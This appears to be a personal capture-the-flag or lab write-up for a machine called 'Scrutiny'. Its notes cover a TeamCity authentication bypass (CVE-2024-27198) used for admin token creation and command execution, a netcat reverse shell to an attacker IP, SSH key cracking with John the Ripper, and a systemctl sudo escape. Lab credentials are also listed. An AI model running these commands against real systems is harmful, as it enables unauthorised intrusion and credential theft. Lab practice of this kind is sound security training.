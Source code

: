 # Scrutiny \[Inter]

## Report



## Cheatsheet

```
Run exploit first to create admin_user

curl -X POST http://teams.onlyrands.com/app/rest/users/id:22/tokens/RPC2 -u rcity_rules_897
*curl -u [user:password combos supported]
curl -X POST 'http://teams.onlyrands.com/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"

busybox nc 192.168.45.238 80 -e /bin/bash
even port 8000 was blocked

git log
git show [hash]

ssh2john id_rsa > hash
john --wordlist=rockyou.txt hash
ssh -i id_rsa marcot@192.168.222.91
marcot@onlyrands:/var/mail$ cat marcot
matthewa@onlyrands:~$ cat .~
sudo /usr/bin/systemctl status teamcity-server.service
!/sh
```

### Hint

* initial exploit didnt work so fumbled
* fumbled at API token generation
* port 8000 revshell wasn't working -> fumbled
* did not clock git -> fumbled
* id\_rsa wasn't private key format -> fumbled
* reading mails and sudo -> fumbled

## Loot

### Enumeration

192.168.222.91

```
25/tcp  open   smtp    Postfix smtpd
| ssl-cert: Subject: commonName=onlyrands.com
80/tcp  open   http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: OnlyRands
| http-methods: 
|_  Supported Methods: GET HEAD
443/tcp closed https
Service Info: Host:  onlyrands.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80

```
http://teams.onlyrands.com/login.html
TeamCity
Version 2023.05.4 (build 129421)
```

### Attack Vectors

CVE-2023-42793 \[Auth bypass for teamcity before 2023.05.4] - FAIL

{% embed url="https://github.com/Stuub/RCity-CVE-2024-27198.git" %}

### PrivEsc

SMTP port was open right so we knew it would have something to do with emails

To use port 25 we need creds which we didn't have so maybe after initial access, but we could read from '/var/mail' directly

### Creds

```
marcot:cheer [SSH passphrase]
matthewa:IdealismEngineAshen476
briand:RefriedScabbedWasting502
```

### Proof

#### Enable Debug Mode

```
Responding with error, status code: 400 (Bad Request). 
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via “rest.debug.processes.enable” internal property

export TOKEN="<TOKEN HERE>"
curl -X POST 'http://teams.onlyrands.com/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN"
curl 'http://teams.onlyrands.com/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties' -H "Authorization: Bearer $TOKEN"
```

```
From: matthewa@onlyrands.com
To: marcot@onlyrands.com
Subject: Goodbye, best friend
Date: Fri,  18 Feb 2022 08:43:11 (UTC)
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <20240607093348.E8D713650@onlyrands.com>

Marco,

Dach, the imbecile, forgot to disable my access, so you can login using my account. The password is "IdealismEngineAshen476" (without the quotation marcot).

I've left you a parting gift--your eyes only.
I'm gonna miss you, pal. Catch you on the flip side.

Sincerely,
Matthew A.
```
